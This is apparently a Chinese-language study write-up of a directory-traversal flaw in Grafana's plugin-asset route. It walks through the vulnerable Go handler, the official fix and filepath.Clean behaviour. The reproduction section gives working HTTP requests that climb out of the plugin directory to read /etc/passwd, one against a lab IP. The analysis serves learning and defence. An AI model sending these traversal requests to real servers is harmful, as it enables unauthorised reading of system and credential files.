




# 一、漏洞分析
## 1. 查看路由注册
在grafana的源码中查看`pkg\api\api.go`，其中存在这样的片段：

```
	// expose plugin file system assets
	r.Get("/public/plugins/:pluginId/*", hs.getPluginAssets)
```

可见，对于`GET /public/plugins/:pluginId/*`这一请求，由hs.`getPluginAssets`这一hander来处理，且没有要求任何权限。
## 2. 查看getPluginAssets
在全局搜索`getPluginAssets`，发现在`pkg\api\plugins.go`中定义了`func (hs *HTTPServer) getPluginAssets(c *models.ReqContext)`



存在这样的片段：

``` go
func (hs *HTTPServer) getPluginAssets(c *models.ReqContext) {
	pluginID := macaron.Params(c.Req)[":pluginId"]
	plugin := hs.PluginManager.GetPlugin(pluginID)
	if plugin == nil {
		c.JsonApiErr(404, "Plugin not found", nil)
		return
	}

	requestedFile := filepath.Clean(macaron.Params(c.Req)["*"])
	pluginFilePath := filepath.Join(plugin.PluginDir, requestedFile)

	if !plugin.IncludedInSignature(requestedFile) {
		hs.log.Warn("Access to requested plugin file will be forbidden in upcoming Grafana versions as the file "+
			"is not included in the plugin signature", "file", requestedFile)
	}

	// It's safe to ignore gosec warning G304 since we already clean the requested file path and subsequently
	// use this with a prefix of the plugin's directory, which is set during plugin loading
	// nolint:gosec
	f, err := os.Open(pluginFilePath)
	if err != nil {
		if os.IsNotExist(err) {
			c.JsonApiErr(404, "Plugin file not found", err)
			return
		}
		c.JsonApiErr(500, "Could not open plugin file", err)
		return
	}
	defer func() {
		if err := f.Close(); err != nil {
			hs.log.Error("Failed to close file", "err", err)
		}
	}()

	fi, err := f.Stat()
	if err != nil {
		c.JsonApiErr(500, "Plugin file exists but could not open", err)
		return
	}

	if hs.Cfg.Env == setting.Dev {
		c.Resp.Header().Set("Cache-Control", "max-age=0, must-revalidate, no-cache")
	} else {
		c.Resp.Header().Set("Cache-Control", "public, max-age=3600")
	}

	http.ServeContent(c.Resp, c.Req, pluginFilePath, fi.ModTime(), f)
}
```

以下两行存在问题：

``` go
	requestedFile := filepath.Clean(macaron.Params(c.Req)["*"])
	pluginFilePath := filepath.Join(plugin.PluginDir, requestedFile)
```

第一句将想要请求的文件的路径进行简化，第二句将插件的路径`plugin.PluginDir`和简化后的文件路径`requestedFile`拼接在一起。

当前端传入的URL为：`/public/plugins/test_plugin_Id/../../../etc/passwd`时，如果知道plugin.PluginDir的值，那么控制../的数量之后就可以访问敏感文件。

拓展：filepath.Clean（）输出最简的指向相同位置的路径

例如
```
/./x/y      ->      /x/y
/x/./../y   ->      /y
/x/./y      ->      /x/y
/x/../y     ->      /y
/../x       ->      /x
../x/y      ->      ../x/y
```

##  3. 官方的修补

branch:v8.2.x

commit:9c6816f91b83d390d7f89847b109dd80509d65d0



以`/public/plugins/test_plugin_Id/../../../etc/passwd`为例

``` go
requestedFile := filepath.Clean(filepath.Join("/", macaron.Params(c.Req)["*"]))
rel, err := filepath.Rel("/", requestedFile)
```
``` 
macaron.Params(c.Req)["*"]                                        =   ../../../etc/passwd

filepath.Join("/", macaron.Params(c.Req)["*"])                    =   /../../../etc/passwd

filepath.Clean(filepath.Join("/", macaron.Params(c.Req)["*"]))    =   /etc/passwd

rel, err := filepath.Rel("/", requestedFile)                      =   etc/passwd
```
经过以上变换从而消除了"./"、"../"等。
# 二、漏洞复现
```
GET /public/plugins/alertlist/../../../../../../../../../../../../../etc/passwd HTTP/1.1
Host: 192.168.240.130:3000
Accept-Language: zh-CN,zh;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/145.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
```

### 注意：即使我们不知道插件的绝对路径，但是我们可以输入足够多的“../”以保证当前路径计算后为根目录。



其实，插件的绝对路径也可以找到，在pkg\plugins\manager\manager.go中：
```
pluginCommon.PluginDir = filepath.Dir(pluginJSONFilePath)
```

比如插件mysql,他的plugin.json的目录为：public\app\plugins\datasource\mysql\plugin.json

若这个项目部署在/var/www/html/中,那么绝对路径就是：/var/www/html/public/app/plugins/datasource/mysql/

那么响应的api就是：
GET /public/plugins/mysql/../../../../../../../../etc/passwd


# 三、总结
1. 入门了代码审计。
2. 学习了目录穿越漏洞的原理。
3. 知道了go语言中filepath.Clean()的作业。

2026/3/25-18:35